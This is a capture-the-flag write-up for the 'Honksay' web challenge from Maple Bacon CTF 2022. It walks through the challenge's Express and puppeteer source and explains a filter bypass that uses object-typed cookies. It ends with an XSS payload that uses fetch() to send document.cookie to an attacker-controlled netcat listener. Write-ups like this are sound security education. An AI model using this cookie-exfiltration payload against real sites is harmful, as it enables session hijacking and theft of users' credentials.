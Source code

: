 # Maple Bacon CTF 2022 - Web - Honksay
Author: Vie#1231
Release Date: August 26, 2022

## Challege Description
Haha goose say funny thing

## Tools Used
- netcat
- burpsuite

## Write Up

You're given a weblink:

![Import Raw](./img/01_webpage)

And a compressed files with what appears to be running on the webserver:

```
└── hosted
    ├── app.js
    ├── Dockerfile
    ├── goose.js
    ├── package.json
    ├── package-lock.json
    └── public
        └── images
            └── goosevie.png

```

Let's look at the javascript files

Web form post from [app.js](./src/app.js)
```javascript
app.post('/report', (req, res) => {
    const url = req.body.url;
    goose.visit(url);
    res.send('honk');
});
```

What ever you input into the form will be pushed to [goose.js](./src/goose.js). Looks like some XSS action. So lets take a closer look

```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```

It looks like goose.js will run a headless chromium browser and attempt the visit the url from the input of the webform. More importantly it will set a cookie with the flag BUT it can only be accessed from the localhost. We need to have the goose.js visit a localhost site. Let's take a closer look at app.js to see if something can help:

```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```

Maybe we can have the webserver visit itself with a localhost get a  "newhonk" request to /changehonk to set the honk cookie which gets redirected to /. The "newhonk" request will have to be an object or else it will be picked up by the clean function. We can use the honk cookie to inject html/js into the html template:

```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```

Set up a internet accessible netcat listener and input the following into the webform: 

```
http://localhost:9988/changehonk?newhonk[msg]=<script>fetch("http://netcatIP:port/cookie=?${document.cookie}");</script>
```

We see the cookie in the http header on our netcat listener. There is your flag.


Note:

You can also use: [https://putsreq.com/](https://putsreq.com/) instead of a netcat listener.